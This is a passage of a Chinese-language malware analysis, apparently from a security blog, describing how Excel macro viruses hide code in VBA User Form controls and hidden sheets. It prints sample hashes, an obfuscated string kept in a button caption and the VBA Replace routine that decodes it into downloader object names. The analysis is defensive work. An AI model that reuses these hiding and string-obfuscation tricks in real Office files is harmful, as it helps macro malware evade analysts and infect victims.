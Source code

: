 1.  PE文件数据是使用函数动态生成
2.  数据存放在Excel表格中，使用隐藏显示
3.  数据存放位置很远，不容易被看到
4.  病毒在不同的excel表中切换，给分析人员调试VBA代码增加困难
5.  病毒运行完毕，清理现场，显示邮件地址列表，掩饰自身

0x02 VBA User Form隐藏代码
======================

* * *

此类病毒把部分代码隐藏到 VBA 工程中的 用户控件（User Form）中，甚至把带有代码的控件最小化，使之不易被看到。

*   样本文件md5：9266db6c7772f6c45411ff3a591b1374
*   sha256 : 9d11f2d2f0e0e5fd8a2ef552a5521920767d7939881443435296d0c600e4a71a

virustotal 扫描结果：

![p12](http://drops.javaweb.org/uploads/images/a1bb9bccbab45146167b239379168e6a30241485.jpg)

查看该文件的宏，

![p13](http://drops.javaweb.org/uploads/images/69eba7e4d2b441f1bb73a2f29209c88dfc0b258a.jpg)

此文件看起来像是正常的SQL操作类的宏代码，但是当我们查看窗体 Ultra 时发现，

![p14](http://drops.javaweb.org/uploads/images/d5e9d1c8e22fcc22bfeeb5673c50d1ace871df8e.jpg)

有个控件的Caption中存放了可疑数据如下，

```
D!icrobrioft.XD!LHTTP10)Adodb.britr00aD!10)brih00ll.Application10)Wbricript.brih00ll10)Proc00bribri10)G00T10)T00D!P10)Typ0010)op00n10)writ0010)r00briponbri00Body10)briav00tofil0010)hendib00.00x00

```

此数据在宏代码中被使用的位置为，

```
CadenaCurrency(Ultra.CommandButton3.Caption, "00", "e")

```

其中，CadenaCurrency 是一个简单的 Replace 调用，

```
Public Function CadenaCurrency(A1 As String, A2 As String, A3 As String) As String
CadenaCurrency = Replace(A1, A2, A3)
End Function

```

解密方法是，

```
Dim aproblems As String
 aproblems = CadenaCurrency(Ultra.CommandButton3.Caption, "00", "e")
 aproblems = CadenaCurrency(aproblems, "D!", "M")
 aproblems = CadenaCurrency(aproblems, "bri", "s")
 constans_problems = Split(aproblems, "10)")

```
